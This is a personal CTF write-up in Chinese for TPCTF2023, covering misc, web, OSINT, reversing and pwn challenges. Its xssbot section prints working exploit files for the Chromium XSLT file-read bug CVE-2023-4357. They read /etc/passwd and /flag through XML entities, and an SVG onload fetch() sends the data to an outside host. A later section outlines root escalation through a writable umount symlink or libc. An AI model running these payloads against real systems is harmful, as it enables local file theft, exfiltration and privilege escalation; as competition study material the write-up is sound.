





# TPCTF2023 个人参赛Writeup
Lysithea, 33/191, Score 1816 (4 misc + 1 web)

[TOC]

第一次沉浸式参加XCTF分站赛，也算是第一次参加非新生赛/校赛，体会到一种走出新手村然后被暴打的感觉。第一次以个人名义参加团队赛（毕竟一直以来都是一个人玩CTF，没有参加校队什么的）。恰逢本地流感大流行，本人也这几天不幸中招，可以说是带病出战。总之呢，BUFF叠满了。

2天的团队赛要单刷的话，突出的感觉就是时间完全不够！特别是我并非按某个方向特化训练的，作为pwn/web自学选手，双刀流的后果就是哪个都会一点但哪个都不精，所以校赛可以通杀但是正经比赛哪个方向都吃瘪，也就（方向本就很杂所以深度/门槛不高）的misc能勉强维持生活这个样子。后面有空的话或许我会接着做其中一些我有兴趣的题，届时可能会更新这份WP。

<!-- truncate -->

## 已完成题目

### SIGNIN: Ingress (misc)
最后给了个疑似URL的东西，先凯撒一下，果然是rot13，没了。

### nanoUniverse: flagment (misc)
喜闻乐见迷宫题，二维地图，没给源码/地图固定，有墙壁。地图中会散落flag碎片，每个对于flag某个位置的字符，在地图上位置固定。有燃料限制，移动会消耗燃料，撞墙会更多地消耗燃料，收集到flag碎片会更多地消耗燃料。还有非常糟糕的随机传送机制，在某些特定位置触发，但hint说所有传送都可以绕过去。

我的思路很简单，就是随机游走遍历。但是这个随机不能是完全随机（热知识：二维随机游走回到原点的概率是发散的），比如WSWSWS这样的序列就是完全没有意义的，另外一直撞墙也没有意义，所以我对上一步的结果做了检查。理论上，既然地图是静态的，那么应该可以把地图记录下来，我也确实尝试这么做了，但是不知为什么得到的地图是有冲突的，就是某些相同的路径的记录会同时是墙和路，所以我怀疑地图也是会有变化的，但是这种盲人摸象状态基本上不太可能看透发生了什么（这个题第二问甚至给了两个撞墙的提示，不知道是不是会触发地图变化）。此外，因为体力有限，所以要探索比较远的地方，可以预先指定一个起始路径，再开始随机。

最后我本地爆了总共大概300条记录，总算凑出了flag的绝大多数字母，但还有3个字母没凑出来`TPCTF{NO_icE-And-HELP-THe-v_sUALLy-1MP_IR3d-ar0unD-US}`。这时可以看出flag是有意义的英文leet后的结果，已经可以猜出结果了，总共只有3x3x4=36种可能性，直接在提交flag那里遍历。

### normalize (misc)
这个题我觉得是除了签到最简单的，完全不知道为什么没什么人做（甚至拿了二血），可能大家忙着做更难的题吧。

题目给了`urllib3==1.25.6`基本上用不到，这个题的玩法就是输入一个长度和一个异或掩码，然后服务器会生成一个路径为指定长度的URL，把路径部分和异或掩码做cyclic xor之后，把url escape后的结果返回回来，但是都只截断到前面6个字符。处理前的URL可以看到`TPCTF{`的flag 头。

利用思路很简单，就是`./`在URL normalize过程中会被丢弃，因而输出部分会包含后面的内容。和`00`异或可以知道原文，同时我们也会知道下一步拿什么异或会出`./`。另外这个题会把所有输出转为小写字母，所以大小写错误会导致掩码出来`%0e%0f`，不过这个题比较仁慈好像所有字母都是小写，而且很短。

### xssbot (web)
这个题是很早放出来然后很快就被大家薄纱的，当然我到第二天才做出来。XSSbot很像Hackergame2023的【微积分计算小练习】，但是这个题没有给任何有XSS漏洞的网站，而Dockerfile里debian的版本从12降级到了10。当然做题时我并没通过DockerFile发现了这一点，而是部署好Docker打开Docker Desktop for Windows后，从里面看到好几百条High-Critical安全警告，全是chromium的（好家伙）



这么多洞要打哪个呢，其实我大概能猜到。这个题需要一个跨域（`file://`）的任意文件读取，而最近刚好爆出过一个高版本Chrome（`<116.0.5845.96`）的XXE漏洞，CVE-2023-4357，可以做到这一点，原理是引入外部实体时，本来应该做跨域检查，但是如果实体引入是通过`document`语法出现在在被svg引入的xsl模板文件里，xslt库就忽略了这个检查，因而可以跨域读取任意本地文件（非沙箱模式是真的任意读取，沙箱模式也能读取`/etc/passwd`）。（顺便一提，这个洞在国内安全新闻报导中画风都是这样的：[【核弹级漏洞预警】苹果、微信、支付宝、小米浏览器、携程应用等均存在任意文件读取漏洞](https://cn-sec.com/archives/2219576.html)，因为微信/支付宝等许多国内应用在这个洞爆出4个多月后还能打，我那几天看到新闻后自己试了一下，安卓微信浏览器是可以复现的）。而因为debian 10已经不再维护，chromium大版本也停在了90，因此默认软件源安装的chromium一定是可以打通的。

话虽如此，我并没有成功复现这篇公众号里的POC。当然，我跑通了[https://crbug.com/1458911⁠](https://crbug.com/1458911⁠)里的这个双文件，php不重要主要是为了加一个CORS头，我最终的也是在这个基础上改的。本地测试把chromium回显打开，确认了确实可以本地文件读取后，最后一步就是把结果带出去了，这需要一个js代码执行。这里有些坑，比如引入xml的script标签是不会作为js代码被执行的！甚至有时候加的东西太多会让本地文件读取本身都失效（不知道是语法错误还是触发WAF了，有点玄学成分在）。我其实感觉用另一个html包含那个有问题的svg是可以的，但是我最后是在svg的onload字段里执行了一个`fetch`。flag内容确实也就是这个CVE，这是预期解（不过u1s1这个应该不叫XSS吧，顶多算钓鱼链接，我提交的网页里只有一个`location.href=xxxx`，其他所有内容都在我自己的Apache网页上）

.htaccess
```
Header add Access-Control-Allow-Origin "*"
```

js.svg
```xml
<?xml version="1.0" encoding="UTF-8"?>
<?xml-stylesheet type="text/xsl" href="?#"?>
<xsl:stylesheet version="1.0" xmlns:xsl="http://www.w3.org/1999/XSL/Transform">

<xsl:template match="/">

  <svg width="1000%" height="1000%" version="1.1" xmlns="http://www.w3.org/2000/svg" onload="a=document.querySelector('#flag').innerHTML; d=encodeURIComponent(btoa(a)); fetch('http://8fef4cb7-6b66-4ce5-8c29-e3b5f82b3d37.node4.buuoj.cn:81/?k='+d)">
    <foreignObject class="node" font-size="18" width="100%" height="100%">
    <body xmlns="http://www.w3.org/1999/xhtml">
      <xmp><xsl:copy-of  select="document('http://8fef4cb7-6b66-4ce5-8c29-e3b5f82b3d37.node4.buuoj.cn:81/xsl2.html')"/></xmp>
    </body>
    </foreignObject>
  </svg>

  </xsl:template>
</xsl:stylesheet>
```

xsl2.html
```html
<?xml-stylesheet type="text/xsl" href="?#"?><!DOCTYPE p [
<!ENTITY passwd SYSTEM "file:///etc/passwd">
<!ENTITY hosts SYSTEM "file:///etc/hosts">
<!ENTITY group SYSTEM "file://localhost/etc/group">
<!ENTITY flag SYSTEM "file:///flag">

]> 

<p>
  <p id="flag">&flag;</p>
  <script src="http://8fef4cb7-6b66-4ce5-8c29-e3b5f82b3d37.node4.buuoj.cn:81/get.js"></script>
</p>
```

第二问没有外网，需要换个思路。我刚好查到一个单文件打这个洞的[POC](https://github.com/xcanwin/CVE-2023-4357-Chrome-XXE)，应该可以解决读取的问题（当然，我本地又没跑通，没时间检查问题出在哪里了）。此外还得解决回传问题，这次不像微积分小练习，是真的没有任何回传接口，我猜是得想办法让selenium报错/崩溃打侧信道，不过即使调出来应该也要挺花时间。

#### 11.28 update

看到了一个[writeup](https://blog.csdn.net/Jayjay___/article/details/134643090)
1. svg里面可以直接插script标签执行代码，就不用费劲往onload里塞one-liner了。xml确实是不行。poc确实是之前看到那个single file改的，也不知道为啥当时就是打不通，烦躁。
2. Javascript侧信道：`while(true){console.log(1);}`。看起来js死循环是可以成功让selenium卡住的，这个可能和selenium的timeout策略有关，js没执行完走的是set_page_load_timeout的15秒而不是time.sleep的4秒（事实上如果是需要load finish根本走不到time.sleep），总之这个很好测。

> selenium timeout: ([https://www.browserstack.com/guide/understanding-selenium-timeouts](https://www.browserstack.com/guide/understanding-selenium-timeouts))
> - It is 0 seconds for implicit waits. Here the Selenium Command reports immediately if it cannot find an element.
> - It is 300 seconds for page loads.
> - It is 30 seconds for script timeouts.

### wait for first blood (misc)
这个题先不说难度，机制上就感觉挺新鲜的。这个题服务器会传回一个不完整（缺失部分像素）的二维码，并且随着时间推移，服务器返回的二维码缺失像素会越来越少，二维码会逐渐变得完整，最终在比赛快结束的时间段二维码是可以通过内置纠错机制复原的。因为这个题到第二天晚上才逐渐可解，所以准备打这个题抢一血的师傅们只能被迫熬夜了（我直接通宵了，从前一天10点开始，8点交flag）。

要做这个题就必然要了解QR code的结构，编码格式，纠错机制，排布顺序等等实现细节。我不打算在这里完全讲一遍，因为提示给的这篇[中文博客](https://note.tonycrane.cc/ctf/misc/qrcode/)和[英文文档](https://gcore.jsdelivr.net/gh/tonycrane/tonycrane.github.io/p/409d352d/ISO_IEC18004-2015.pdf)讲的更好。解码的过程基本上是把流程倒着走一遍。

我们的QR-Code是45x45，从尺寸上是Version 7，format code是type-0 mask和H冗余格式。QRcode有效数据会以一种蛇字形方式填充非格式/结构部分。下图是我验证代码正确性画的填充顺序示意图，还有点微妙的艺术感


之后，注意QRcode的数据部分是经过掩码处理的，需要复原。到这一步，我们可以把整个QRcode变为196个字节（8位）数据流。接下来需要处理分块问题，把数据流转化为几块数据和纠错码。问题在于，中文文档中说这个分块格式记录在文档的一个表格里，但是我完全无法理解表格的分块格式（我认为那个表格做的极其令人迷惑），因为前面LMQH是4个数据，后面就变成6个数据了，完全不知道对应关系。我是看到[别的博客](https://www.thonky.com/qr-code-tutorial/error-correction-table)才找到，原来有些行是对应两列的，比如7H需要4个大小为13的block和1个大小为14的block，这样一共66个数据字节，每个block配置26个纠错码字节，总共刚好196个，没有padding



接下来就可以对每块数据+纠错码进行解码了，QRcode是使用Reed-Solomon算法做的纠错码，我没去研究细节，因为pip有一个reedsolo库可以做有冗余的编码。注意需要指定`erras_pos`，因为在纠错机制里，每个未知（errasures，模糊不可识别）只需要一个纠错码，而每个错误（error）需要两个纠错码，如果不指定errasures，那么很可能这些是会当作错误，而无法解码。我做到这一步时，可以对Block 1,2,3,4正确解码，但是无法对Block 0解码。

理论上，接下来我们需要最后一步，即逆向实际数据通过ECI, Alphanumeric等模式编码为插入纠错码前的数据码这一步。但是我们其实有更好的方法，就是通过纠错码处理后的完整block数据复原二维码（这里一定记得把掩码加回去，这个点遗漏调了我好几个小时）。当然，因为Block0解码失败，我们修复后还是不能扫描。我们目前处理QRcode修复一个很重要的特点是，**所有已知的像素正确率是100%，所有模糊性完全来自缺失的像素**，这本身是一个非常强但没有充分利用的条件，我们可以利用这一点在修复的时候纠错，因为如果纠错算法运行后的结果不正确，有很高概率覆盖掉目前已知的部分像素。而reedsolo的算法是基于，只要**给定errasures就认为这个字节所有位都是不确定的，但很多情况下这个字节只有一两个位是真正未知的**。这种信息冗余最终表现为，直接运行纠错算法会因为方程欠定无法求解，而我们可以假设其中一些位没有错误而让纠错算法返回一个唯一结果（在我最后一次运行时，我需要补充5个这样的额外位）。然而，因为求解时没用到我们的额外信息，绝大多数情况得到的结果会和部分已知像素冲突，除非我们假设的位全部是正确的。从数学本质上，相当于同时增加了新的方程（已知像素信息）和新的变量（假设的“已知”位），让问题适定。从操作上，我们只需要额外在block0中随机假设5个位的值，共32种情况，全部求解一遍，只有一种情况和已有像素是没有冲突的，那么这时就可以复原二维码全部像素，可以直接扫出结果，跳过实际解码最后一步。

在复原Block0过程中，我实际也尝试过自己对Block 1-4解码。我猜里面应该有AlphaNumeric，于是尝试遍历一些padding，按那个字母表解码，其实能解出`thub.com/Konano/`这样一看就直接确定URL成分的子串（当然实际URL最后有个hash，考虑到解码过程会掺入些结构字还是很难直接拿到后半部分的）。不过有个地方我一直有疑惑，因为Alphanumeric是不区分大小写的，但最后解码出来大小写混杂，所以肯定还有别的编码方式。完整的处理代码在[这里](qr/qr.py)

最后网址是Nano师傅的github gist。当时打GG3华维码直接跳了（其实不是被QRcode吓跑的是被华容道吓跑的，后来听说华容道部分反而是更简单的部分），逃的课终究还是要补的。

## 未完成但有进展/思路的题目

### 小T的日常 (misc - osint)
基于微信朋友圈照片的OSINT。本题需要找到拍摄者本人住址楼下商业街一家一元店隔壁的服装店的店名和电话



照片左右两侧的标志性建筑可以google lens一遍出，结合谷歌地图街景和缆车等信息可以唯一确定拍摄地点（横滨-横滨地标大厦附近-北仲橋 路西侧）。接下来已知拍摄者坐地铁上班只需要大约5分钟，住所到地铁站也只需要大约5分钟，并且楼下有商业街。5分钟地铁基本只能是1站地。假设这个位置在通勤途中，不太能确定是家附近还是公司附近。附近有两类地铁，一个是樱木町站，这个车站在google地图上有JR标志，但是车站出口步行到拍摄地点要绕很远的路。另一个是马车道站，这个属于港未来线，步行顺路，当然不是JR。我在比赛时对什么样的地铁才能算是JR线产生了疑问，并且主要是看的港未来线的前后站，只找到一些疑似在商圈里的门店，并且所有一元店旁边都没有包含英文名和联系地址的服装店。



> （赛后总结时回去花了5分钟就看了看发现樱木町的下一站伊势左木町疑似有商店街 + 挨着的一元店和服装店，瞬间感觉🤡了，当然现在交不了flag了）
> 

众所周知，OSINT只要被卡住就等于没有进度。

#### 11.28更新
看到已有writeup，关内站的伊势左木町是正确的，当然店名需要谷歌街景逛街仔细找。感觉好麻。

### maze & nanopyenc (rev - pyinstaller逆向)
出了两个pyinstaller逆向题，都做了一半没做出来。

pyinstaller本身逆向是很容易的，有pyinstxinstaller这种项目，甚至有[在线部署版本](https://pyinstxtractor-web.netlify.app/)（本地运行的好像不会加pyc头，在线的会加但还得自己补magic head，看一下uncompyle6等pyc反编译结果就知道版本了，可以自己编译一个同版本pyc来接头）（吐槽一下uncompyle6居然不认3.8.18的小版本号）

#### maze (cython module)
`chal.pyc`就一个`from maze import run; run()`，一看这个`maze`竟然是个.so文件，在里面看到了大量Python API调用和Cython等字样。搜索[Cython逆向](https://panda0s.top/2021/05/07/Cython-Reverse/)，结果好家伙结构怎么那么复杂，看的头都大了。从stringtab里倒是提取出了迷宫的地图，但是完全不知道该怎么玩。

#### nanopyenc (Python `from xxx import *` 内置变量覆写)
这个题倒是好好地逆向出了`secret.py`和`run.py`。看起来是个AES加密，key和cipher都是明文给的。简单写了代码，运行……怎么结果是个`flag{test}`啊，但是前面又assert要求满足TPCTF的flag格式？百思不得其解，也许是里面做了些什么花活（比如self-modified-code，这种基于虚拟机的甚至不需要mprotect改权限），比如替换了enc内容，或者干脆劫持了整个程序流程，看不出来。

- 2023.12.6 补充：看[writeup](https://www.ctfiot.com/149063.html), 其实是藏在`from Crypto.Util.number import *`里面把enc, list都覆写了，本身pyc格式没做手脚（不然pyistxinstaller肯定就报错了）


### pwn-safehttpd (pwn - 高版本glibc)
这个题把HTTP功能部分程序看懂了，知道了怎么构造请求调用后台的几个函数。但是这个题很有意思的，只能有一次输出机会，输出后就把输出流关闭了，当然你可以选择在发送请求时带特定头重置输出流从而不关闭，但是代价就是这一轮的输出拿不到，相当于把输出机会留到后面，想来这个是leak地址用的。

看后面那些功能可能是堆利用，结果一看libc版本2.37，保护全开，好家伙，告辞。（后面有机会或许可以再深入研究一下）

### core
看到[星盟网安队的Writeup](https://blog.xmcve.com/2023/11/28/TPCTF2023-Writeup/)了，我说怎么core这个题杀的人这么多，原来是有非预期。

这个题问题在于`/bin`权限我们几乎都能控制(属主是我们)。只要读了`/init`，就会知道在shell结束之后会umount文件系统，而恰好这个umount是我们可以控制的（是一个指向root busybox的软链，但软链本身属主是我们，所以可以直接换掉），`/init`本身执行是root身份，所以修改umount就提权了。

> 此事在RCTF2022 - game中亦有记载

第二问`/bin`属于root，但是`/lib64/libc.so`我们可以修改，busybox是动态链接，我们又可以注入代码了。
